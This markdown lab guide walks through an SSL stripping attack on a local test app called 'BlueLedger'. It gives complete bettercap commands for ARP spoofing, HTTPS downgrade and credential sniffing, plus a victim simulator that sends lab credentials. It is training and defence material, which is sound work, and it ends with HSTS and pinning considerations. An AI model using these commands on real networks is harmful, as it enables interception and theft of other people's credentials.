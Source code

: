 # SSL Stripping Lab Guide

## Overview
This lab demonstrates SSL downgrade attacks using SSL stripping techniques. The goal is to intercept HTTPS traffic and capture credentials transmitted in plaintext for security research and defense training.

## ⚠️ IMPORTANT: Network Requirements
- **Attacker and victim MUST be on the same network segment**
- **Test with a dedicated victim machine or VM - NOT the same machine**
- **Disable any VPN or complex network setups during testing**

## Prerequisites
- Linux system with network access
- Bettercap installed
- Python 3 with requests library
- Network interface capable of packet injection
- Victim simulator (included)

## Tools Comparison

### Bettercap vs Ettercap
- **Bettercap**: Recommended - built-in SSL stripping, no custom filters needed
- **Ettercap**: Requires custom filter files, more complex setup

## Lab Setup

### 1. Install Bettercap
```bash
sudo apt install bettercap
```

### 2. Enable IP Forwarding
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
sudo sysctl -w net.ipv4.conf.all.send_redirects=0
```

### 3. Start SSL Stripping Attack

**Basic command (replace `eth0` with your interface):**

```bash
sudo bettercap -iface eth0 -eval "net.recon on; set arp.spoof.fullduplex true; arp.spoof on; set http.proxy.sslstrip true; http.proxy on; net.sniff on"
```

**Target specific victim:**
```bash
sudo bettercap -iface eth0 -eval "set arp.spoof.fullduplex true; set arp.spoof.targets [VICTIM_IP]; arp.spoof on; set http.proxy.sslstrip true; http.proxy on; net.sniff on"
```

### 4. Start BlueLedger Target Application
```bash
cd /home/hwoomer/Documents/BlueLedger
docker compose up
```

This starts the BlueLedger app with:
- HTTP server on port 5000
- HTTPS server on port 5001 (with self-signed certificate)

### 5. Run Victim Simulator
In a separate terminal:
```bash
python3 victim_simulator.py
```

**Note**: Update victim simulator target to `https://[TARGET_IP]:5001/api/auth/login`

## Attack Components

### Bettercap Modules Used
- `arp.spoof`: ARP poisoning for MITM positioning
- `http.proxy`: HTTP proxy with SSL stripping
- `net.sniff`: Packet capture for credential extraction
- `net.recon`: Network reconnaissance

### SSL Stripping Process
1. ARP spoofing positions attacker as gateway
2. HTTPS requests intercepted and downgraded to HTTP
3. Victim receives HTTP response (appears normal)
4. Credentials transmitted in plaintext
5. Bettercap captures and logs credentials

## Expected Results

### Captured Credentials
Monitor bettercap output for JSON POST data containing:
- `"email":"Employee@sinamoa.com"`
- `"password":"Employee123!@#"`

### Traffic Flow
1. Victim attempts HTTPS connection to port 5001 (BlueLedger HTTPS)
2. Bettercap intercepts and strips SSL
3. Plaintext HTTP request forwarded to port 5000 (BlueLedger HTTP)
4. BlueLedger backend accepts both HTTP and HTTPS
5. Credentials captured in transit by bettercap

## Victim Simulator Details
- Sends JSON login attempts every 30 seconds to `/api/auth/login`
- Uses realistic User-Agent headers
- Targets configurable IP address (defaults to HTTPS port 5001)
- Simulates typical REST API authentication flow
- Credentials: Employee@sinamoa.com / Employee123!@#

## Defense Considerations
This lab helps understand:
- SSL stripping attack vectors
- Importance of HSTS (HTTP Strict Transport Security)
- Certificate pinning effectiveness
- User awareness of URL schemes (HTTP vs HTTPS)

## Lab Cleanup
1. Stop bettercap with Ctrl+C
2. Stop victim simulator with Ctrl+C
3. Disable IP forwarding (optional):
   ```bash
   echo 0 > /proc/sys/net/ipv4/ip_forward
   ```

## Notes
- This setup requires no custom configuration files
- Works out of the box with standard tools
- Demonstrates practical SSL downgrade vulnerability
- Suitable for security research and training environments

## Troubleshooting
- Ensure proper network interface selection
- Verify ARP spoofing is working with `net.show`
- Check that victim and attacker are on same network segment
- Monitor bettercap logs for SSL stripping activity